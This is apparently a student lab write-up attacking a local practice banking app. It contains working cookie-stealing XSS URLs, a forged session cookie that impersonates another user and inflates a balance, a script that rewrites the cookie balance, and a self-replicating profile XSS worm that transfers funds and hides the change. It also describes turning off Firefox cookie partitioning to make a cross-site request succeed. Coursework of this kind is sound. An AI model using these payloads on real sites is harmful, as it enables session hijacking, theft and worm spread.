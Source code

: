 # Project 1

## Team members

- PRO
- zzh

## Procedure

### a

1. Test HTML injection via: `http://localhost:3000/profile?username=<script>alert(1);</script>`, which works.
2. Try `http://localhost:3000/profile?username=hack<script>location.href="/steal_cookie?session_cookie="+document.cookie</script>`, but `+` got interpreted as space.
3. Simple fix: ```http://localhost:3000/profile?username=hack<script>location.href=`/steal_cookie?session_cookie=${document.cookie}`</script>```, but the redirect would be visible to user.
4. Using `fetch`: ```http://localhost:3000/profile?username=hack<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);</script>```
5. Fixing `User does not exist`: ```http://localhost:3000/profile?username=<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);document.querySelector("p.error").remove();</script>```

### b

Having tried `<form>`, `XMLHttpRequest` and `fetch`, but all of them refused to send cookies: `Partitioned cookie or storage access was provided to “http://localhost:3000/post_transfer” because it is loaded in the third-party context and dynamic state partitioning is enabled.`. The root cause is that, on firefox:

> A request to access cookies or storage was partitioned because it came from a third-party (a different origin) and dynamic state partitioning is enabled.

Our request does not come from `localhost:3000`, so firefox refuses to send it with cookie.

**Solution**: Change [firefox settings](about:preferences#privacy) according to the image.

![Firefox](./images/firefox.jpg)

After changing the settings and re-visiting our HTML, the attack shall succeed:

![Success](./images/success.jpg)

### c

Let's inspect `document.cookie`:

```text
session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6ImF0dGFja2VyIiwiaGFzaGVkUGFzc3dvcmQiOiIwZmM5MjFkY2NmY2IwNzExMzJlNzIzODVmMTBkOTFkY2IyMTM5ODM3OTJkZmU5M2RlOGI1ZDMyNzRiNWE1Y2Y1Iiwic2FsdCI6IjIxODM0NzA4NDkyOTcwODYwMzY4OTQwNzEwMTMxNTYwMjE4NzQxIiwicHJvZmlsZSI6IiIsImJpdGJhcnMiOjc2fX0=
```

The value of `session` seems to be base64-encoded. Let's decode and see what it contains:

```json
{
    "loggedIn": true,
    "account": {
        "username": "attacker",
        "hashedPassword": "0fc921dccfcb071132e72385f10d91dcb213983792dfe93de8b5d3274b5a5cf5",
        "salt": "21834708492970860368940710131560218741",
        "profile": "",
        "bitbars": 76
    }
}
```

By inspecting `router.js`, we see that once logged in, the server won't check the correctness of password. So we can simply change `account.username` to `user1`, `account.bitbars` to `200` and base64-encode it. Here's our final script:

```javascript
document.cookie = "session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6InVzZXIxIiwiaGFzaGVkUGFzc3dvcmQiOiIwZmM5MjFkY2NmY2IwNzExMzJlNzIzODVmMTBkOTFkY2IyMTM5ODM3OTJkZmU5M2RlOGI1ZDMyNzRiNWE1Y2Y1Iiwic2FsdCI6IjIxODM0NzA4NDkyOTcwODYwMzY4OTQwNzEwMTMxNTYwMjE4NzQxIiwicHJvZmlsZSI6IiIsImJpdGJhcnMiOjIwMH19";
```

### d

From our exploit at [c](#c), we learn that we can modify `account.bitbars` to any value of our choice. However, since username and other details are unknown, we need to generate our payload real-time using JavaScript:

```javascript
const b64 = document.cookie.slice(8);
const data = JSON.parse(atob(b64));
data.account.bitbars = 1000001;
const payload = btoa(JSON.stringify(data));
document.cookie = "session=" + payload;
```

After executing the code and performing a $\$1$ transaction, the balance of our account shall be $\$1000000$.

### e



### f

First, let's test if the profile page is vulnerable by using the following text as the profile text:

```html
<script>alert("ATTACK");</script>
```

Seeing the alert, we can confirm that the profile page is vulnerable:

![f-test](./images/f-test.png)

Now we can construct our profile worm as follows:

```javascript
function getCurrentUsername() {
    const b64 = document.cookie.slice(8);
    const data = JSON.parse(atob(b64));
    return data.account.username;
}
function fakeBitbarCount(amount) {
    const observer = new MutationObserver(mutations => {
        const span = document.getElementById("bitbar_count");
        if (span === null) {
            return;
        }
        span.className = amount;
        observer.disconnect();
    });
    observer.observe(document.body, { childList: true, subtree: true, attributes: false });
}
async function transfer(username, quantity) {
    const r = await fetch("/post_transfer", {
        method: "POST",
        credentials: "include",
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
        },
        body: `destination_username=${username}&quantity=${quantity}`
    });
    const text = await r.text();
    const success = text.includes("Successfully transferred");
    return success;
}
async function getProfile(username) {
    const r = await fetch("/profile?username=" + username, {
        credentials: "include"
    });
    const text = await r.text();
    const doc = new DOMParser().parseFromString(text, 'text/html');
    const profile = doc.getElementById('profile')?.innerHTML;
    return profile ?? "";
}
async function setProfile(content) {
    const encoded = encodeURIComponent(content);
    const r = await fetch("/set_profile", {
        method: "POST",
        credentials: "include",
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
        },
        body: `new_profile=${encoded}`
    });
    return r.ok;
}
async function attack() {
    const attacker = "attacker";
    const user = getCurrentUsername();
    if (user === attacker) {
        console.log("Does not trigger on attacker account.");
        return;
    } else {
        console.log("Attacking " + user);
    }
    fakeBitbarCount(10);
    transfer(attacker, 1).then(succ => {
        console.log("Transfer success: " + succ);
    });
    const attackerProfile = await getProfile(attacker);
    console.log("Attacker profile: " + attackerProfile);
    const success = await setProfile(attackerProfile);
    console.log("Set profile success: " + success);
}
attack();
```

### g



## References

- Detailed guide on how to install docker: https://lindevs.com/install-docker-ce-on-ubuntu/
- https://stackoverflow.com/questions/168455/how-do-you-post-to-an-iframe
- https://developer.mozilla.org/en-US/docs/Web/Privacy/Storage_access_policy/Errors/CookiePartitionedForeign
- https://stackoverflow.com/questions/35325370/how-do-i-post-a-x-www-form-urlencoded-request-using-fetch
